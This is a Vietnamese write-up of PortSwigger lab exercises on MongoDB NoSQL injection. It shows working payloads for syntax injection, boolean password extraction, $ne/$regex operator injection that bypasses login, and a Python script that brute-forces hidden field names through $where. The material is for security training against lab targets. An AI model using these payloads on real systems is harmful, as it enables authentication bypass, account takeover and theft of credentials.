# No SQL Injection

## NoSQL syntax injection

### Detecting syntax injection in MongoDB
#### Lab: Detecting NoSQL injection
**Yêu cầu**
The product category filter for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.
To solve the lab, perform a NoSQL injection attack that causes the application to display unreleased products.

**Thực hiện**
- Theo như mô tả thì chức năng `category filter` sử dụng MongoDB. Quan sát gói tin request và response qua Burp.


- Kiểm tra xem `category` có lỗ hổng injection hay không ? Payload: `Gift'`


- Thực hiện chèn thêm để có thể leak được thông tin các đơn hàng không được leak. Có thể câu truy vấn sẽ như này: 
```javascript
const category = req.query.category;
db.collection('products').find({ $where: "this.category == '" + category + "'" });
```
- Payload chèn: `category=Gifts'||'1'=='1`


**Note**    
NoSQL Injection khai thác lỗ hổng khi server không kiểm tra hoặc làm sạch dữ liệu đầu vào, đặc biệt trong MongoDB với `$where`, cho phép thực thi mã JavaScript. Kẻ tấn công có thể chèn dấu nháy đơn (`'`) hoặc toán tử `||` (OR) để thay đổi cú pháp và bỏ qua logic truy vấn, từ đó truy xuất toàn bộ dữ liệu.

NoSQL Injection khai thác lỗ hổng khi server không lọc đầu vào, đặc biệt với MongoDB `$where`.
Dấu nháy đơn (') phá cú pháp JavaScript trong `$where`, giúp phát hiện lỗ hổng.
Toán tử `||` kết hợp với điều kiện luôn đúng `('1'=='1')` bỏ qua logic truy vấn gốc.
`$where` nguy hiểm vì cho phép chạy JavaScript, dễ bị tấn công nếu không kiểm soát đầu vào.

### Exploiting syntax injection to extract data
#### LAB: Exploiting NoSQL injection to extract data
**Yêu cầu**
The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.
To solve the lab, extract the `password` for the `administrator` user, then log in to their account.
You can log in to your own account using the following credentials: `wiener:peter`.

**Thực hiện**
- Chức năng lookup sử dụng MongoDB -> quan sát gói tin request và response


- Thay username thành `administrator` 


- Thử trích xuất thông tin bằng kĩ thuật boolean. Payload `user=administrator'%26%26this.password[0]=='e`. Ở đây payload kiểm tra xem kí tự đầu là `e`. Nếu đúng thì hiện thị nội dung, nếu sai thì sẽ thông báo không tìm thấy user.



- Payload `administrator'%26%26this.password.length=='8` giúp ta xác định được đồ dài mật khẩu là 8. Giờ thì trích xuất mật khẩu thôi.


- Password: `exglgkzx`. Đăng nhập vào tài khoản administrator và hoàn thành lab.


**Note**
Các kĩ thuật sử dụng trong bài này có hơi hướng giống với SQL injection. Ở đây ta tận dụng các hàm `length` hay `this.password[0]` để trích xuất thông tin của password thông qua các phản hồi đúng sai.

## NoSQL operator injection
### Detecting operator injection in MongoDB
#### Lab: Exploiting NoSQL operator injection to bypass authentication
**Yêu cầu**
The login functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection using MongoDB operators.
To solve the lab, log into the application as the `administrator` user.
You can log in to your own account using the following credentials: `wiener:peter`.

**Thực hiện**
- Gợi ý thì mongoDB được sử dụng ở chức năng login -> Quan sát gói tin request và response.


- Gói tin POST đang dùng json để gửi theo thông tin đăng nhâp, ta thử thay đổi xem có thông báo gì không ? payload `{"username":{"$ne":"invalid"},"password":"peter"}`



- Đăng nhập được vào tài khoản `wiener`  -> Sửa lại payload để đăng nhập được tài khoản `administrator`. Payload:`{"username":"administrator","password":{"$ne":"blbabal"}}`


- Không đăng nhập được nhưng nếu đổi sang `wiener` thì lại được -> rất có thể tài khoản admin không phải là `administrator`


- Theo gợi ý thì tài khoản admin sẽ có chứa chuỗi `admin` -> sửa payload thành
- `{"username":{"$regex": ".*admin.*"},"password":{"$ne":"blbabal"}}`


- Hoàn thành bài lab.


**Note**
Trong bài lab này chúng ta có thể sử dụng json để và chèn vào đó các toán tử của MongoDB để bypass cơ chế xác thực.
- **$where** - So khớp các tài liệu (documents) thỏa mãn một biểu thức JavaScript.
- **$ne** - So khớp tất cả các giá trị không bằng một giá trị chỉ định.
- **$in** - So khớp tất cả các giá trị được chỉ định trong một mảng.
- **$regex** - Chọn các tài liệu có giá trị khớp với một biểu thức chính quy (regular expression) được chỉ định.

Bài này chúng ta biết tài khoản admin không như thông thường trong các bài lab khác là `administrator` nên cần có cơ chế linh hoạt hơn trong việc sử dụng payload để khai thác.

### Exploiting NoSQL operator injection to extract data
#### Lab: Exploiting NoSQL operator injection to extract unknown fields
**Yêu cầu**
The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.
To solve the lab, log in as `carlos`.
>Tips
To solve the lab, you'll first need to exfiltrate the value of the password reset token for the user `carlos`.

**Thực hiện**
- Ở bài lab này việc phát hiện ra lỗ hổng khó hơn. Trước tiên thử nghiệm với tính năng đăng nhập.



- Điều này cho thấy form login sử dụng json để gửi dữ liệu đi. Hãy thử nghiệm ở form login xem trích xuất được thông tin gì không ? payload `{"username":"wiener","password":{"$ne":"invalid"}}`


- Thử đăng nhập bằng `carlos`. Account bị lock phải reset password.


- Trích xuất thôgn tin password của `wiener`. Dựa vào đây chúng ta hoàn toàn có thể xác nhận rằng chúng ta có thể trích xuất thông tin khác của object.


- Dựa vào phản hồi này ta biết trong object này có 5 trường.


- Dựa vào kinh nghiệm và kiểm chứng ta biết 3 trường đầu tiên lần lượt là `_id`, `username`, `password`. Viết script để tìm kiếm tên 2 trường còn lại. -> `email` và `resetPwdToken`.
```python
import requests
from string import ascii_letters

class Exploit:
    def __init__(self, base_url):
        self.base_url = base_url
        self.login_url = f"{base_url}/login"

    def extract_field_names(self, position):
        username = "carlos"
        password = {"$ne": "foobar"}
        field_name = ""

        for char in ascii_letters:
            # Tạo payload regex: ^char.* (nếu field_name rỗng) hoặc ^field_name+char.*
            payload = f"^{field_name}{char}.*" if field_name else f"^{char}.*"
            where_condition = f"Object.keys(this)[{position}].match('{payload}')"
            print(f"\r[*] Trying: {where_condition}", end="")

            # Gửi request
            login_data = {"username": username, "password": password, "$where": where_condition}
            response = requests.post(self.login_url, json=login_data)

            # Kiểm tra phản hồi: Thành công nếu không có "Invalid username"
            if "Invalid username" not in response.text:
                field_name += char
                print(f"\n[+] Found char '{char}' at position {position} (Field: {field_name})")
                break
        else:  # Nếu không tìm thấy ký tự nào
            if not field_name:
                print(f"\n[-] No field at position {position}")
            else:
                print(f"\n[*] Final field name at position {position}: {field_name}")

if __name__ == "__main__":
    base_url = "https://0a8f003304266ee980d476d400c8007f.web-security-academy.net/"
    exploit = Exploit(base_url)

    for i in range(4):
        exploit.extract_field_names(i)
```

- `resetPwdToken`:`6e71090f07223f77`. Truy cập theo đường dẫn này 


- Đổi mật khẩu và đăng nhập lại để hoàn thành bài lab.

**Note**